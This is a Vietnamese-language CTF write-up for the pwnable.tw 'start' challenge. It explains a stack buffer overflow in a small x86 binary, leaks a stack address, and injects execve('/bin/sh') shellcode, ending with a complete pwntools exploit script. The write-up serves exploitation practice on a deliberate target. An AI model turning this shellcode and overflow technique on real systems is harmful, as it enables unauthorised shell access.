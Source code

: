 # Start
just a start

### Checksec:
![image](https://github.com/vuhz/CTF/assets/90823042/264db6d0-be83-490d-b31f-938dfa40ca5f)

### Code:
```asm
 0x08048060 <+0>:     push   esp
 0x08048061 <+1>:     push   0x804809d
 0x08048066 <+6>:     xor    eax,eax
 0x08048068 <+8>:     xor    ebx,ebx
 0x0804806a <+10>:    xor    ecx,ecx
 0x0804806c <+12>:    xor    edx,edx
 0x0804806e <+14>:    push   0x3a465443
 0x08048073 <+19>:    push   0x20656874
 0x08048078 <+24>:    push   0x20747261
 0x0804807d <+29>:    push   0x74732073
 0x08048082 <+34>:    push   0x2774654c
 0x08048087 <+39>:    mov    ecx,esp
 0x08048089 <+41>:    mov    dl,0x14
 0x0804808b <+43>:    mov    bl,0x1
 0x0804808d <+45>:    mov    al,0x4
 0x0804808f <+47>:    int    0x80
 0x08048091 <+49>:    xor    ebx,ebx
 0x08048093 <+51>:    mov    dl,0x3c
 0x08048095 <+53>:    mov    al,0x3
 0x08048097 <+55>:    int    0x80
 0x08048099 <+57>:    add    esp,0x14
 0x0804809c <+60>:    ret
```

Code bằng assembly, nên ko thể dùng ret2win hay libc được, nhưng có NX disabled, ta có thể inject shellcode vào rồi chạy.

Ở hai lần gọi syscall (int 0x80), tìm trong [Syscall x86](https://x86.syscall.sh/) thì syscall đầu tiên là print đống text trên stack, rồi syscall thứ hai là read vào 0x3c bytes. Nhưng vì syscall read lấy `$ecx` là buffer, và tại thời điểm đó `$ecx` vẫn đang trỏ đến đầu stack, nên ta có thể sử dụng lỗi buffer overflow để return lại đầu chương trình.

![image](https://github.com/vuhz/CTF/assets/90823042/13e1981d-c660-40f3-b573-86a8bd10a077)
<p align="center">offset đến return là 0x14 bytes</p>

Nhưng nếu muốn chạy shellcode thì phải leak được stack đúng ko?. Để ý là sau return có một giá trị trên stack là địa chỉ của stack sau nó, và ở syscall đầu tiên:

![image](https://github.com/vuhz/CTF/assets/90823042/b64f22fd-13a9-4c44-8cfe-f401f0ef4e80)

ta lại chuyển pointer stack vào `$ecx` một lần nữa, và khi gọi syscall, ta có thể leak được stack. Vậy ta chỉ cần padding đến return và nhảy vào `_start+39`.

### Shellcode payload:
```asm
xor eax, eax
push eax        
push 6845231 
push 1852400175 
mov ebx, esp    
xor ecx, ecx    
xor edx, edx    
mov al, 0xb     
int 0x80
```
Vì độ dài của shellcode mình là 23 nên ko thể input vào đầu buffer, nên mình sẽ lấy stackleak + offset để trỏ đến shellcode của mình (sau ret). Đây là payload mẫu:
**`payload = padding + (stack_leak + offset) + shellcode`**

### Full payload:
```py
#!/usr/bin/python3

from pwn import *

exe = ELF('start', checksec=False)
context.binary = exe

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)
sln = lambda msg, num: sla(msg, str(num).encode())
sn = lambda msg, num: sa(msg, str(num).encode())

def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''
            b*_start+55
            c
        ''')
        input()


if args.REMOTE:
    p = remote('chall.pwnable.tw', 10000)
else:
    p = process(exe.path)
GDB()

payload = b'A' * 20
payload += p32(0x08048087)
sa(b'CTF:', payload)
stack = p.recv(4)
info(f"Stack leak: {hex(u32(stack))}")

shell = asm("""
xor eax, eax
push eax        
push 6845231 
push 1852400175 
mov ebx, esp    
xor ecx, ecx    
xor edx, edx    
mov al, 0xb     
int 0x80 
""", arch = 'i386')

payload = b'A' * 20 + p32(u32(stack) + 20) + shell
s(payload)
p.interactive()
```

